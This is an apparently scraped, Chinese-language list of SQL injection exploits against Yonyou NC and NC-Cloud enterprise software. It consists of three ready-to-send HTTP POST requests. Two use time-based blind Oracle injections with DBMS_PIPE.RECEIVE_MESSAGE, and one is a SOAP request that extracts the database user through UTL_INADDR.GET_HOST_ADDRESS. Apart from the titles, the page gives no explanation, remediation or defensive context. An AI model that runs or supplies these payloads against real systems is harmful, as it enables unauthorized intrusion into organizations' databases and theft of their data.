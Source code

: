  
漏洞描述：  
用友NC changeEvent 存在SQL注入  
  
漏洞描述：  
```
POST /portal/pt/oacoSchedulerEvents/changeEvent?pageId=login HTTP/1.1
Host:
Content-Type: application/x-www-form-urlencoded

event_id=1' AND 1=dbms_pipe.receive_message('RDS',5)--+#&startDate=2025-07-01 00:00:00&startDate_old=2025-07-01 24:00:00
```  
  
  
漏洞名称：  
用友NC-Cloud IBapIOService存在SQL注入  
  
漏洞描述：  
```
POST /uapws/service/nc.itf.bap.service.IBapIOService HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: text/xml

<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:gs="http://service.bap.itf.nc/IBapIOService">
    <soapenv:Header/>
    <soapenv:Body>
        <gs:getBapTableDatas>
            <gs:stringarrayItem>
                DWQueue@MessageQueue' AND 1=UTL_INADDR.GET_HOST_ADDRESS('~'||(user)||'~')-- abc
            </gs:stringarrayItem>
        </gs:getBapTableDatas>
    </soapenv:Body>
</soapenv:Envelope>
```  
  
  
漏洞名称：  
用友NC qrySubPurchaseOrgByParentPk 存在SQL注入  
  
漏洞描述：  
```
POST /ebvp/register/qrySubPurchaseOrgByParentPk HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded

pk_group=1' AND 1=DBMS_PIPE.RECEIVE_MESSAGE('RDS',5) --
```  
  